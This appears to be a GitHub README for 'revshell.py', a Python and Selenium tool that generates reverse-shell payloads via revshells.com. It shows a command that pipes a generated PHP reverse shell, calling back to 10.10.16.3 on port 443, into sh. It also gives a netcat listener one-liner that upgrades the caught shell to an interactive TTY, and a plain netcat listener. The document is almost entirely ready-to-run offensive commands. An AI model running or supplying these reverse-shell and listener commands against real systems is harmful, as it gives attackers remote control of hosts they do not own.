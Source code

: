 # revshell.py
use selenium with python3 on revshells.com (or docker revshells) to generate shells.

![Peek 2021-10-08 19-51](https://user-images.githubusercontent.com/42157994/136601207-85432e27-c933-4d06-831a-77fbf5e3f603.gif)

revshell command:
```bash
rev_shell.py --ip 10.10.16.3 --port 443 -it 'PHP popen' -os linux -st zsh | sh
```


Listener used (optional):
```bash
stty raw -echo; (echo 'script -qc "/bin/bash" /dev/null';echo pty;echo;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;echo export PATH=$PATH:/usr/bin:/bin:/usr/pkg/bin:/usr/local/bin;echo export TERM=xterm-256color;echo alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp 443 && reset
```
Normal listener:
```bash
nc -lvnp 443
```


![image](https://user-images.githubusercontent.com/42157994/136600825-56bb5f2c-a366-450f-bc57-ee3560f49479.png)
